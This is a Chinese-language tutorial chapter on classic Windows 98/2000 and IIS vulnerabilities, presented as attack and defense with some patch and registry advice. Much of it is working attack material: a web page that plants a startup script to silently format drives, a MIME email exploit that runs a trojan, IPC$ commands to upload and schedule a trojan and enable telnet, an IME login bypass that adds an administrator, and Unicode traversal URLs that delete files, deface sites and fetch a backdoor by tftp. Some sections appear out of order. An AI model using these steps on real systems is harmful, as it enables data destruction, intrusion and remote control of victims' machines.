**漏洞描述：**`CON\CON` 漏洞也是 Windows 98 的一个很经典漏洞。当在 Windows 9X 系统中解释一个如 `c:\[device]\[device]` 这样的路径来调用 FAT32\VFAT 内核程序时，会导致其上的一些本地或远程应用程序崩溃，出现系统暂停、“蓝屏”现象，如图 7，并最终导致整个系统崩溃。

## 经典漏洞攻防初探

造成死机。有 5 个设备驱动程序可被利用来做此攻击：`con`、`nul`、`aux`、`clock$` 和 `config$`。所以本地与远程用户通过使用一个指向特殊设备驱动器的路径串，如（`con/nul`、`nul/con`、`aux/nul`……）的组合，对攻击 Win9x 都很有效，能使 Windows 在毫无提示的情况下崩溃。

图7

漏洞测试：此漏洞有多种用法，可以本地调用：在“运行栏”与“IE 浏览器”中输入 `c:\con\con` 等，运行后 Win98 马上蓝屏后崩溃。它还可以远程攻击：利用这个漏洞进行远程攻击有个前提条件，就是被攻击的 Win98 必须有共享的分区或文件夹。先可以通过扫描器探知对方 Win98 的共享资源，然后只要在“运行框”或是浏览器中输入：`\\目标主机\共享文件夹\con\con`，如图8，然后“确定”就行。

图8

它还可以隐藏在网页和邮件里，当作网页炸弹与邮件炸弹来用。在网页或 HTML 格式的邮件里隐藏一个指向 `[drive]:\con\con` 或 `[drive]:\nul\nul` 的图像路径，当查看该网页或邮件时，也会使该 Win98 系统蓝屏崩溃。具体代码如下：

```html
<html>
<body>

<!-- or nul\nul,clock$\clock$ -->
<!-- or aux\aux,config$\config$ -->
</body>
</html>
```

此漏洞的补丁下载地址：http://www.technocraft.co.jp/download/decon2.exe

### 6. IE 代码格式化本地磁盘漏洞

（演示录像、测试网页见光盘）

Windows 98 带来的 IE 有漏洞，它允许创建和复写本地文件，可以把 htm 文件中的 hta（HTML Application）程序添加到 Win95 或 Win98 的开始菜单中。在机器下次启动时，此 hta 程序就会自动被执行；如果攻击者对这个脚本程序精心构造，可以格式化本地硬盘。

漏洞测试：在 Win98 下新建一个 htm 文件，在网页中加入如下 HTML 代码：

```html
<object id="scr" classid="clsid:06290BD5-48AA-11D2-8432-006008C3FBFC"></object>
<script>
scr.Reset();
scr.Path="c:\\WINDOWS\\Start Menu\\Programs\\启动\\format.hta";
scr.Doc="<Object id='wsh' classid='clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B'></object><SCRIPT>wsh.Run('start /m format c: /autotest /u'),wsh.Run('start /m format d: /autotest /u'),wsh.Run('start /m format e: /autotest /u'),alert('windows 系统出错，修复程序正在进行修复，这可能需要几分钟......');</"+"SCRIPT>";
scr.write();
</script>
```

保存后在 Win98 下浏览这个网页，此网页会在毫无提示下在用户的 `c:\WINDOWS\Start Menu\Programs\启动`（即 Windows 98 的开始菜单“启动”文件夹）中生成一个 `format.hta` 程序，下次启动时此程序就会执行。而这个 `format.hta` 的具体内容就是格式化硬盘。我们从上面的程序中可以看到，这个程序一连用了三句 `wsh.Run('start /m format drive: /autotest /u')` 来分别格式化 C、D、E 盘，而用 `start /m` 使得程序以最小化的方式运行，用户不容易发现。用参数 `/autotest`，会在某个驱动器上自动运行 format 而不再需要经过用户确认。参数 `/u` 是无条件格式化。

这样当用户重启计算机第二次进入 Win98 时，这个 `format.hta` 程序就会运行，会直接出现最小化的格式化硬盘 DOS 窗口，如图9。等用户反应过来强行结束程序时，格式化过程早已开始，硬盘数据已被破坏了。

攻击者可以创建一个 HTML 格式的 E-mail，该 E-mail 的附件为可执行文件。通过修改 MIME 头，可以使 IE 不能正确处理而直接执行这个 MIME 所指定的可执行文件附件。IE 是如何处理附件的呢？一般情况下如果附件是文本文件，IE 会读它；如果是 VIDEO CLIP，IE 会查看它；如果附件是图形文件，IE 就会显示它；如果附件是一个 EXE 文件，IE 会提示用户是否执行。令人恐惧的是，当攻击者更改 MIME 类型后，IE 就不再提示用户是否执行而直接运行该附件，从而使攻击者加载附件中的程序。受此漏洞影响的系统有 Win98/ME/2000，常用的微软邮件客户端软件 Outlook Express 也存在此漏洞。

图9

**解决方法：**很明显，这个漏洞是很危险的。想想你在网上随便点击了一个链接打开了一个网页，而这个网页含有上面的代码，那你的盘里的东西一下都没了，哭也来不及了。所以最好在 IE 设置里禁止脚本运行，但这样 IE 会失去许多功能。还有一个办法是把 `C:\WINDOWS\COMMAND` 下的 `format.com` 程序改名或移除，没了 format 程序，格式化也就运行不了了。

> MIME（Multipurpose Internet Mail Extensions），一般译作“多用途的网络邮件扩充协议”。顾名思义，它可以传送多媒体文件，在一封电子邮件中附加各种格式文件一起发送。现在它已演化成一种指定文件类型（Internet 标准的消息、E-mail、Usenet 新闻和 Web）的通用方法。在使用 CGI 程序时常会接触 MIME 类型，其中有一行叫作 Content-type 的语句，它用来指明传送的是 MIME 类型的文件（如 `text/html` 或 `text/plain`）。

> 上面的代码出现了一个 WSH，你知道这是什么东西吗？其实这是现在在 Windows 98/2000/XP 中流行的一个强大的脚本环境——Microsoft Windows Script Host（WSH），它的编程语言是 VBScript 和 JScript。我们通常用它们来实现动态网页程序设计，而实际上它的用途非常广泛，是高级系统管理员和软件设计人员的利器。

### 7. 警惕的 MIME 漏洞

（演示录像，相关工具见光盘）

**漏洞描述：**MIME（多用途的网络邮件扩充协议）在处理不正常的 MIME 类型时存在问题，攻击者可以构造邮件并诱导用户执行恶意附件。

**漏洞测试：**这个漏洞是很危险的。想想如果前面提到加载在附件中的程序是木马或恶意程序，而你又刚刚浏览了这个网页，那你就完了。下面我们来看看这个漏洞的利用方法：将一个小巧的 exe 文件做成一个 `.eml` 文件，然后利用 MIME 漏洞让一个 html 页面执行这个 eml 文件，你的那个小巧 exe 文件就被执行了。先创建如下一个 `.eml` 文件：

```txt
From: "xxx" <xxxx@xxx.xxx>
To: "xxx" <xxxx@xxx.xxx>
Subject: xxx
Date: Tue, 7 Apr 2001 15:16:57 +800
MIME-Version: 1.0
Content-Type: multipart/related;
 type="multipart/alternative";
 boundary="1"
X-Priority: 3
X-MSMail-Priority: Normal
X-Unsent: 1
--1
Content-Type: multipart/alternative;
    boundary="2"
--2
Content-Type: text/html;
    charset="gb2312"
Content-Transfer-Encoding: quoted-printable
<HTML>
<HEAD>
</HEAD>
<BODY bgColor=3D#ffffff>
<iframe src=3Dcid:THE-CID height=3D0 width=3D0></iframe>
</BODY>
</HTML>
--2--

--1
Content-Type: audio/x-wav;  <====（错误的 MIME 头）
    name="木马名.exe"
Content-Transfer-Encoding: base64
Content-ID: <THE-CID>
TVqQAAMAAAAEAAAA...
（软件的 base64 编码代码过长省略）
```

会毫无提示地执行。手工制作一个 MIME 漏洞网页比较麻烦，在实际过程中可以使用一些工具来制作，像 MIME 漏洞网页生成器就是一个不错的 MIME 漏洞网页生成工具，如图10，但基本原理是一致的。注意：如果用户装了 RealPlayer、超级解霸等媒体播放软件，wav 文件类型被这些播放器关联，遇到这些文件播放器会自动打开，那木马就不会执行。

图10

**解决方法：**下载补丁：  
http://www.microsoft.com/windows/ie/download/critical/Q290108/default.asp

Windows 98 漏洞攻防就讲到这里了。现在还有为数不少的用户和单位仍在使用 Windows 98 系统，其实 Win98 的漏洞很多，远远不止这些，笔者在文中整理的只是其中比较著名的，算是一次对 Win98 经典漏洞的最后阅兵。对于这些漏洞，有些朋友可能已经耳熟能详了，但相信对一些新手来说还是能从中吸取些东西的。“Win98 正在离我们而去，让我们带着怀念的心情读此文吧”。

建议携带的木马程序最好不要超过 20K。至于如何将 exe 文件转换成 base64 编码，你可以用 OE 带上木马附件先给自己发封信，然后将这封信导出为 `.eml` 文件再进行编辑就行了。然后我们再来建立一个启动 `.eml` 木马的网页文件，内容如下：

```html
<html>
<head>
<title>
</title>
</head>
<body>
<SCRIPT LANGUAGE="JAVASCRIPT">
setTimeout("document.location.href='你取的名字.eml'",0000);
</SCRIPT><center><font color="#FF0000" size="7">
</font>
</center>
</body>
</html>
```

然后把这两个文件放到主页空间的同一路径下，当用户浏览这个网页文件时，eml 中的木马就……

## 二、Windows 2000 漏洞攻防

Windows 2000 系统简单易用，管理简单、功能强大，是目前世界上使用最多的服务器操作系统。虽然有着较高的安全级别，但在推出后的几年中仍不断被发现安全漏洞，影响服务器安全和用户利益。本文整理了 Windows 2000 及相关系统中的一些重大远程漏洞（含部分 Windows XP/2003 漏洞）的攻防过程。

### 1. IPC 连接漏洞攻防

漏洞情况：IPC 连接漏洞是新手最常用的漏洞之一，但很多人对其概念和原理并不清楚。IPC（Internet Process Connection）是共享“命名管道”的资源，用于进程间通信，可通过用户名和密码验证获取相应权限，并用于远程管理与共享资源访问。IPC 空连接指不使用用户名与密码的 `ipc$` 连接，通常权限有限，但可用于导出用户列表、枚举用户密码等；使用有效用户或管理员身份连接后可获得更高权限并访问共享资源。IPC 连接是 Windows NT 及以上系统的远程网络登录功能，依赖 NT 系统组件，因此 Windows 9.x 无法建立 `ipc$` 连接。

人们常说利用 IPC$ 漏洞入侵，但 IPC$ 本身并非严格意义上的漏洞，而是为远程管理提供的网络登录功能。默认共享常会开放逻辑盘（如 `c$`、`d$`、`e$`）及系统目录共享（如 `admin$`）。黑客可借 IPC 建立连接并进行信息收集，如导出用户列表、访问共享资源，甚至通过字典工具进行口令探测以获取更高权限。

> **提示**：IPC 连接通常与 139、445 端口相关。139 端口反映 NetBIOS 服务，Windows 2000 下可通过 139/445 访问共享文件与打印机，因此一般认为 `ipc$` 连接需要 139 或 445 端口支持。

漏洞检测：139/445 端口开放并不必然代表 IPC 一定开放。管理员可通过修改注册表、关闭 `ipc$` 共享或安装防火墙等方式禁用 IPC 连接。检测主机是否可 IPC 连接的直接方法是实际尝试连接。下面给出常用命令示例：

- 建立空连接
- 建立非空连接
- 映射默认共享

```bash
net use \\IP\ipc$ "" /user:""
net use \\IP\ipc$ "密码" /user:"用户名"
net use z: \\IP\c$ "密码" /user:"用户名"
```

即可将对方的 C 盘映射为自己的 Z 盘，其他盘类推。如果已经和目标建立了 `ipc$`，则可以直接用 `IP+盘符+$` 访问。具体命令如下：

- 删除一个 `ipc$` 连接：`net use \\IP\ipc$ /del`
- 删除共享映射：  
  `net use c: /del`（删除映射的 C 盘，其他盘类推）  
  `net use * /del`（删除全部，会提示确认，按 y）

```bash
net use \\IP\ipc$ "12345678" /user:"administrator"
```

如果有一个开放了 IPC 服务的管理员账号（如 Administrator，密码为 12345678 的 Win2000 主机），即可用上述命令进行连接，如图1。

用命令手工进行 IPC 连接比较麻烦。进行大规模检测和 IPC 探测口令时，通常借助工具。文中以“流光5”为例，在“高级扫描设置”的“IPC 探测”选项中可进行空连接扫描、共享资源扫描、尝试获取用户名、用户名猜解等。

填写待扫描 IP 后可执行 IPC 探测，主界面会显示进度与结果，并输出扫描报告。根据经验，在网上扫描到管理员口令为空或弱口令（如 12345678）的 Win2000 主机并不罕见。

程序中提示建立空连接不成功，则说明对方禁止了 IPC 连接。

漏洞利用：IPC 连接可用于远程管理便利。如果没有用户账号，可先建立 IPC 空连接获取用户列表，再结合字典进行口令猜解，以获得弱口令账户。

利用 IPC 连接进行暴力猜解是常见方法之一，除文中工具外网络上还有许多 IPC 猜解工具。若已获取弱口令用户（尤其管理员账户），即可用其身份进行 IPC 连接并开展后续操作。

可以用其强大的管理功能：可以获取目标信息、访问共享资源、管理目标进程和服务、上传木马并运行等等。让我们看一个具体的例子。

假设我们已经找到一台这样的主机，IP 地址是 `192.168.0.2`，管理员账号是 `Administrator`，密码 `12345678`，允许 IPC 连接。进入命令行方式：

```bash
c:\>net use \\192.168.0.2\ipc$ "12345678" /user:"Administrator"
```

命令成功完成。

这样以管理员身份建立 IPC 连接成功，然后打开本地的“计算机管理”，在其“操作”菜单里选择“连接到另一台计算机”，如图4。在弹出的对话框中的“名称”中输入远程主机地址：`192.168.0.2`，等一段时间后连接就成功了。你就可以用你的“计算机管理”工具来管理这台 `192.168.0.2` 主机了，当然由于是远程连接，管理时反应会有些滞后。

这样你就可以查看远程主机的系统信息、硬件信息、硬盘信息、管理日志、查看和管理共享资源等等，如图5。还可以通过“服务和应用程序”来管理其服务。如果对方是 Win2000 Server，那还可以考虑开启终端服务方便控制。当然要进行这些管理活动必须是以管理员身份连接才行。

“计算机管理”工具是在图形界面上进行管理的。建立 IPC 连接后，也可以在命令行下通过命令进行各种活动。举个例子，我们来上传木马、启动木马和启动 telnet，如图6，在命令行下输入：

```bash
c:\>copy m.exe \\192.168.0.2\admin$  // 把木马 m.exe 复制到 \\192.168.0.2\admin$ 目录下

c:\>net time \\192.168.0.2      // 查看 192.168.0.2 主机时间
\\192.168.0.2 的当前时间是 2003/7/12 上午 7:56
命令成功完成。

c:\>at \\192.168.0.2 7:58 m.exe   // 用 at 命令让系统在 7:58 运行这个 m.exe
新增加了一项作业，其作业 ID = 1
```

## 经典漏洞攻防技术

要注意的是，`at` 命令必须是在对方启动 `schedule` 服务的情况下才能进行。如果在使用 `at` 命令时出现“服务仍未启动”这样的提示，那你就需要启动 `schedule` 服务。我们可以使用“计算机管理”工具来启动这个 `schedule` 服务，也可以在命令行下使用流光带来的一个小工具 `netsvc` 来启动 `schedule` 服务，只要增加以下步骤。

```bash
c:\>netsvc \\192.168.0.2 schedule /start
Service is running on \\192.168.0.2
```

这样 `schedule` 服务就启动了，`at` 命令就可以用了。一分钟后系统自动会运行这个 `m.exe` 程序，然后我们就可以通过这个木马访问系统了。

```bash
c:\>telnet 192.168.0.2 99
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.
C:\> net start telnet
```

要关闭 NTLM 验证才能从 `telnet` 服务登录上去，再打开一个 DOS 窗口输入：

```bash
C:\>copy ntlm.exe \\192.168.0.2\admin$
C:\WINNT\system32>ntlm
ntlm
Windows 2000 Telnet Dump, by Assassin,
All Rights Reserved.
Done!  // OK了
```

到此我们可以通过 TELNET 服务访问对方计算机了！

**NTLM 验证：**NTLM（NT LAN MANAGER）验证是 Windows NT4 时代开始采用的身份验证机制。Win2000 的 Telnet 服务器默认采用了这种 NTLM 身份验证方式登录，将安全性方案集成到 Windows 2000 安全中。如果使用 NTLM 身份验证，则客户端使用 Windows 2000 安全上下文进行身份验证；并不会提示用户键入用户名和密码，使用本地 Windows 2000 用户名和密码或域账户信息等加密后自动验证来访问 Telnet 服务器。远程计算机要访问此 Telnet 服务器必须关闭 NTLM 验证。

IPC 的漏洞利用介绍到这里就差不多了，更多的技巧要靠大家自己在使用中慢慢体会了。上面用到的命令都很简单，如有不明白的地方可以参考一下第二章介绍的常用网络命令。

### 解决方法

我们知道了 IPC 连接很容易被黑客用来进行入侵，如何能解决 `ipc$` 连接的安全隐患呢？你可以采取以下几种方法来解决这个漏洞。

- 1. 禁止建立空连接。首先运行 `regedit`，找到如下主键：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]`，把 `RestrictAnonymous`=DWORD 的键值改为：`00000001`。
- 2. 禁止管理共享。同样也是找到如下主键：`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]`，把 `AutoShareServer`=DWORD 的键值改为：`00000000`。
- 3. 安装防火墙（选中 IPC 相关设置），或者端口过滤（滤掉 `139,445` 端口）。
- 4. 设置复杂密码，防止通过 IPC$ 穷举用户密码。

## 2. 默认共享漏洞攻防

**漏洞情况：**在 Windows 2000 系统中，当你用右键单击一个盘符选择共享，你会发现这个分区在未经你同意的情况下已经被共享了，而且有了一个好听的名字“默认共享”，共享名是盘符加 `$`。其实从你装好 Windows 2000 系统的那天起，你硬盘的所有分区都已经被“偷偷地”被 Windows 2000 共享给了别人，只是你不知道！为了方便管理员远程管理而默认开启的共享，Windows 2000 的所有逻辑盘（`c$`、`d$`、`e$`……）和系统目录 `admin$` 都是默认共享的，这就是通常所说的 Windows 2000 默认共享漏洞。

其实默认共享漏洞也并不是真正的漏洞，微软当时设计这些默认共享的时候也是出于管理方面的考虑，但是实际上这些默认共享存在着严重的安全隐患。虽然在一般情况下别人通过网上邻居访问你的机器时不能访问这些默认共享，但当攻击者通过我们上面介绍的 IPC 空连接进行用户名探测获取了管理员密码时，那他就可以利用这些默认共享在你的每个分区里任意地为所欲为了，因为他对这些默认共享盘里的读写权限是完全可写的！

IPC 连接与默认共享有什么关系吗？当然有关系！而且关系重大！只有通过 IPC$ 连接才可以实现对这些默认共享的访问，如果 IPC 连接被禁止，那默认共享就等于无，所以也有人把 IPC 连接漏洞与默认共享漏洞视为一个漏洞。

### 漏洞检测

如果你想通过网上邻居来查看这些“看不到”的共享，你会惊奇地发现网上邻居的电脑图标里根本什么也没有（只有打印机和计划任务）。要如何才能检查你或他人的 Windows 2000 系统是否存在着这些默认共享呢？其实也很简单！如果是要检查你的 Windows 2000 是否存在这些默认共享，只要打开“计算机管理”——“共享文件夹”——“共享”就可以查看到你计算机所有的共享资源，如图1。在“会话”中还可以查看当前有访问共享资源的连接情况等。


图1


图2

如果是想检测远程主机是否存在默认共享，可以借助于一些共享扫描软件，如 `shed` 是体积小、扫描速度快、能运行于 WIN NT/2000 下的共享资源扫描器。只要填入要扫描的 IP 段，按“GO”就开始扫描了，如图2。过段时间后它的结果显示栏里就会显示远程主机的共享资源。

### 漏洞测试

点击 `shed` 扫描到共享的链接，或在 IE 地址栏里输入 `\\192.168.0.2\c$`（`192.168.0.2` 是我们内部测试用的主机 IP 地址，`c$` 是要查看的硬盘分区，当然也可以是 `d$`、`e$`……），此时会弹出一个窗口让你输入用户名、密码，如图3。这是建立 IPC 连接的用户身份确认提示框。（注意：这里使用的平台必须是 NT/2000 平台才能访问 Win2000 的默认共享，不能用 Win9X。）关于如何才能得到用户名和密码，我们在上面讲的 IPC 连接漏洞攻防中已经提到过了，可以通过流光等用 IPC 空连接猜测用户账号来获取。但事实上网上有不少朋友机器的管理员（Administrator）账号根本没设置密码，只要输入管理员名 Administrator 后直接选“确定”进 `AutoShareServer` 就行了。能进入了，真的让人惊讶！要知道这样以管理员（Administrator）权限进入默认共享后，你硬盘里所有文件的生杀大权就控制在别人手里了！进入后，默认共享与一般共享毫无区别，可以在里面任意读写、上传下载操作，如图4。


利用它黑客还可以进一步控制你的电脑，只要随便上传个木马，改动下系统文件让它自动运行就行（具体见本章第4节），然后一切尽在“黑客”掌握中……

### 解决方法

如何解决这个漏洞呢？有的朋友可能会说：只要在每个分区的“属性”→“共享”选项里选择“不共享”不就可以了吗？这样做真的能行吗？不行！当系统每次重启后它们就又会自动变成“默认共享”了。如果真的要彻底停止这些默认共享，那就必须通过修改 Windows 的注册表才行！在“运行”中输入 `regedit`，打开注册表编辑器，找到：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CURRENTCONTROLSET\SERVICES\LANMANWORKSTATION\PARAMETERS
```

新建一个名为“AutoShare_Wks”的 DWORD 值，并将其值设为 `0`，就可以停止默认共享了。对于 SERVER，将 `AutoShare_Wks` 改为：

- 1. 禁止 `C$`、`D$` 一类的缺省共享：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters`，`AutoShareServer`，`REG_DWORD`，`0x0`
- 2. 禁止 `ADMIN$` 缺省共享：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters`，`AutoShareWks`，`REG_DWORD`，`0x0`
- 3. 限制 `IPC$` 缺省共享：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\restrictanonymous`，`REG_DWORD`：
  - `0x0` 缺省
  - `0x1` 匿名用户无法列举本机用户列表
  - `0x2` 匿名用户无法连接本机 IPC$ 共享

## 3. 简体中文输入法漏洞

**漏洞情况：**Windows 2000 提供的简体中文输入法（IME）实际上存在漏洞，能够物理接触计算机或通过终端服务访问的攻击者可以利用此漏洞直接获得主机的管理员权限。如果一个 IME 在系统初始设置时被安装，缺省它也会出现在登录界面中，而 Windows 2000 提供的简体中文输入法（IME）没有正确检查当前运行环境，错误地将一些危险功能提供给了还处于登录界面的用户。攻击者可以通过物理键盘或者终端服务会话访问到受影响系统，从而绕过登录机制，获得系统的管理权限。这个漏洞缺省只影响 Windows 2000 SP1 简体中文版，而且只有默认设置时选择了安装简体中文 IME，才会受到影响。对于其他版本的 Windows 2000（例如英文版），或是打过 SP2、SP3 补丁的 Windows 2000 不受此漏洞影响。

### 漏洞检测

对于这个漏洞检测很简单，只要在 Windows 2000 登录界面将光标移至用户名输入框，按键盘上的 `Ctrl+Shift` 键，这时在缺省的安装状态下会出现输入法状态条（例如全拼、双拼、郑码等等）。将鼠标移至输入法状态条点击鼠标右键，在出现的对话框中选择“帮助”，选择“操作指南”或“输入法入门”（微软拼音输入法和智能 ABC 没有这个选项）。如果出现“操作指南”或“输入法入门”窗口，那就说明你的 Windows 2000 存在这个漏洞；如果打不开“操作指南”或“输入法入门”窗口，那说明你的 Windows 2000 已经补上了这个漏洞。

### 测试攻击

这个漏洞危险度极高，轻易能够取得管理员权限，而且攻击过程极其简单，所以曾经在一夜之间，输入法入侵风靡了全国。不过随着时间的推移，网上存在这个漏洞的 Windows 2000 主机已经非常“罕见”了，所以现在在实际应用中也很少能用到了。我们这里讲解这个漏洞攻击过程基本上出于教学和研究考虑，有兴趣的朋友可以自己试试。

此漏洞有本地和远程利用两种用法，原理一致。本地利用一般不太用到，除非你能够物理接触对方主机。大家通常用的都是远程利用，也就是用输入法漏洞入侵 `3389` 终端服务。终端服务（TermService）是一个 Win2000 中基于远程桌面协议（RDP）的服务，默认服务端口是 `3389`（详细介绍见本章的 TS 攻防），从这个服务登录可以使用远程主机桌面上的所有功能。由于终端服务的登录界面和本地登录界面很相似，所以输入法漏洞常被用来入侵终端服务。

需要工具：SUPERSCAN 扫描器、WIN2000 终端服务客户端程序。其主要过程如下：

- 1. 用 SUPERSCAN 扫描器在网上扫描 `3389` 端口的终端服务，填入要扫描 IP 地址和要扫描的端口 `3389` 后开始扫描，一段时间后会发现开了 `3389` 端口的主机，如图1。
- 2. 打开终端客户端程序，填入 IP 地址，进行连接，如图2。


图2

- 3. 连接上去出现登录界面时，将光标移至用户名输入框（如果发现是英文或繁体中文版放弃），按键盘上的 `Ctrl+Shift` 键调出郑码输入法或全拼输入法。这时在缺省安装状态下会出现输入法状态条，如图3；如果没有出现输入法状态条，说明打了补丁。将鼠标移至输入法状态条点击鼠标右键，在出现的对话框中选择“操作指南”或“输入法入门”（如果其帮助菜单发灰说明已经打补丁了），然后会出现“操作指南”或“输入法入门”窗口，如图4。


图1


图3


- 4. 在窗口标题栏上右键，选择“跳至 URL...”，在对话框中输入 `c:\` 等路径，就可以看到目录内容。尽管不能直接进入目录、打开文件、执行程序，但是可以进行更名、删除、共享等操作，因为在 URL 跳转下，你将拥有超级用户权限。也可以在帮助文件中查找链接，在链接上按 `Shift+鼠标左键`，可以打开一个 IE 窗口。在里面可以浏览本地硬盘以及网上邻居、访问控制面板等资源，也可以打开并执行任意程序。
- 5. 如何来取得控制权呢？具体操作方法有很多种，这里只介绍几种最快最直接的方法：一是通过添加用户从终端服务登录取得控制权，二是通过启动木马的方法来取得控制权。


先说如何添加用户。打开“跳至 URL”，此时将出现 Win2000 的系统安装路径和要求我们填入路径的空白栏。如果该 Win2000 系统安装在 C 盘上，就在空白栏中填入 `c:\winnt\system32`，然后按“确定”，于是我们就成功地绕过了身份验证，进入了系统的 SYSTEM32 目录。

现在我们要获得一个账号，成为系统的合法用户。在该目录下找到 `net.exe`，如图5，用鼠标右键点 `net.exe`，创建一个快捷方式；右键点击该快捷方式，在“属性”→“目标”→`c:\winnt\system32\net.exe` 后面空一格，填入 `user username 123456 /add`，如图6。


然后运行该快捷方式。此时你不会看到运行状态，但这个 `username` 新用户实际上已经被添加了。然后再修改该快捷方式，在“属性”→“目标”→`c:\winnt\system32\net.exe` 后面空一格填入：`localgroup administrators username /add`，再运行这个快捷方式，将新用户变成系统管理员。接着你就可以用这个账号从终端服务大大方方地进去“管理”这台主机了。

你也可以启动木马来控制系统。先申请个网页空间，把你要用的木马程序放上去；如果有现成的网站可以下载木马也行。进入输入法帮助界面后，再点“输入法入门”，点击“选项”菜单并右键弹出菜单，选“跳转到 URL”，输入木马所在网址：`http://IP/muma.exe`，然后选择“保存到磁盘”，选择一个目录。

下载完后回到帮助界面，再一次“跳转到 URL”，输入刚才保存木马的文件夹，继续执行即可。找到刚才下载的那个木马程序，然后用鼠标右键点击它，在弹出菜单中选“打开”，这样就执行了这个木马；然后用木马客户端连接上去就可以控制系统了。

### 解决方法

**方法一：**删除输入法。Windows 系统的输入法文件后缀是 `*.ime`，在 Windows 2000 系列中通常放置在安装目录（例如 `C:\WINNT`）中的 `system32` 文件夹中。

| 文件名 | 对应输入法 |
|---|---|
| `WINABC.IME` | 智能 ABC 输入法 |
| `PINTLGNT.IME` | 微软拼音输入法 |
| `WINGB.IME` | 内码输入法 |
| `WINPY.IME` | 全拼输入法 |
| `WINSP.IME` | 双拼输入法 |
| `WINZM.IME` | 郑码输入法 |

可以将郑码输入法和全拼输入法删除来消除这个漏洞。

**方法二：**因为这些操作是通过调用输入法帮助文件来进行的，您也可以通过删除或者重命名输入法帮助文件来加以解决。Windows 2000 输入法分别对应的是安装目录（例如 `C:\WINNT`）中 `help` 文件夹中的文件：

| 文件名 | 说明 |
|---|---|
| `WINIME.CHM` | 输入法操作指南 |
| `WINSP.CHM` | 双拼输入法帮助 |
| `WINZM.CHM` | 郑码输入法帮助 |
| `WINPY.CHM` | 全拼输入法帮助 |
| `WINGB.CHM` | 内码输入法帮助 |

**方法三：**上两种方法都只是暂时地解决了这个漏洞，如果要彻底解决这个漏洞，建议到微软网站 `http://www.microsoft.com/Downloads/` 下载最新的 SP3 系统补丁。

## 4. Unicode 漏洞攻防

Win2000 中出现安全漏洞较多的无疑是其 Internet Web 服务器软件 IIS（Internet Information Server）。下面介绍 IIS 中较重要的漏洞之一：在中美黑客大战中“大展神威”的 Unicode 漏洞。虽然现在仍存在该漏洞的主机已经不多，但作为著名漏洞仍值得了解。

**漏洞情况：**Unicode 漏洞具体地讲是 IIS 4.0/5.0 Unicode 解码错误导致的可远程执行命令漏洞。默认情况下 IIS 的某些目录允许通过 HTTP 请求执行可执行文件；当 IIS 打开包含 Unicode 字符的文件名时会进行解码，攻击者可利用特殊编码使 IIS 访问或执行 Web 根目录以外的文件和程序。

对于 IIS 5.0/4.0 中文版，当 URL 请求文件名中包含特殊编码（如 `%c1%hh` 或 `%c0%hh`）时，系统可能先解码再尝试打开文件，进而被构造出路径分隔字符。

```text
%c1%1c -> (0xc1 - 0xc0) * 0x40 + 0x1c = 0x5c = '\'

%c0%2f -> (0xc0 - 0xc0) * 0x40 + 0x2f = 0x2f = '/'
```


攻击者可以利用这些 Unicode 字符替代“/”和“\”绕过 IIS 路径检查，执行或打开任意文件。未授权用户可能利用 `IUSR_machinename` 账号上下文访问文件；该账号默认属于 `Everyone` 和 `Users` 组成员，因此同一逻辑驱动器上可被这些用户组访问的文件都可能受到影响。

## 经典漏洞攻防初成

能被删除、修改或执行，就如同一个用户成功登录所能完成的一样。受此漏洞影响的系统：Microsoft IIS 4.0—Microsoft Windows NT 4.0 SP6a，Microsoft IIS 5.0—Microsoft Windows 2000 SP1/SP2，Microsoft Personal Web Server 4.0—Windows 98/95。

### 漏洞检测

我们下面的讲解都以中文版 Win2000 为例，如果是其他版本，按上面所述替换相应编码。若一台开放 WEB 服务的 Win2000 主机（如 192.168.0.2），检测是否存在 Unicode 漏洞可在 IE 输入：`http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir`。若存在漏洞且可执行，返回结果会列出目录内容（如图1）。


当然利用扫描器来检测可以省事许多。能扫描 Unicode 漏洞的扫描器有很多，这里用 RangeScan。它可自定义扫描内容、只扫特定内容并提升速度。示例扫描内容：`/scripts/..%c1%1c../winnt/system32/cmd.exe`（Win2000 中文版）与 `/scripts/..%c0%af../winnt/system32/cmd.exe`（Win 英文版）。扫描后可在结果栏看到是否存在 Unicode 漏洞（如 192.168.0.2）。

### 测试攻击

利用该漏洞可在命令行执行多种命令，入侵会变得容易。

- 1. 浏览目录：`http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir+c:`（可改盘符查看其他路径文件）
- 2. 删除文件：`http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+del+c:\inetpub\wwwroot\index.htm`
- 3. 修改主页：`http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+echo+网页被我黑了+哈哈>c:\inetpub\wwwroot\index.htm`
- 4. 上传文件到对方目录：`http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+copy+c:\winnt\system32\cmd.exe+c:\inetpub\scripts\cmd.exe`

以上只是 Unicode 下使用命令的几个例子。由于手工输入命令繁琐，后来出现了图形界面的利用工具（如 IIS Cracker），可用资源管理器式操作来管理 IIS 服务器；即使不熟悉 Unicode 与 DOS 命令，也可进行浏览目录、删除文件、上传文件等操作，如图3。


图 3

利用 Unicode 漏洞入侵的具体方法多种多样，我们这里介绍最简单的一种：把后门程序上传上去然后执行它。为了使大家能了解其详细过程，我们还是用命令来进行。假如现在有一台 IP 为 192.168.0.2 的 Unicode 漏洞机，我们需要有一个能在命令行下运行的后门程序 ncx99.exe，还要一个工具 tftpd32.exe，这是一个小巧的 FTP 服务器。

先运行工具 tftpd32.exe，如图4，在运行它之前，建议先关闭其他 FTP 服务器，这样你的机器已经是一个 FTP 服务器了。然后把要上传的 ncx99.exe 放到与 tftpd32.exe 同一个目录下。注意：ncx99.exe 与 tftpd32.exe 一定得在同一文件夹下。接着回到 IE 浏览器，在地址栏里输入：

```text
http://192.168.0.2/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+tftp+-i+GET+192.168.0.1+ncx99.exe+d:\inetpub\scripts\ncx99.exe
```

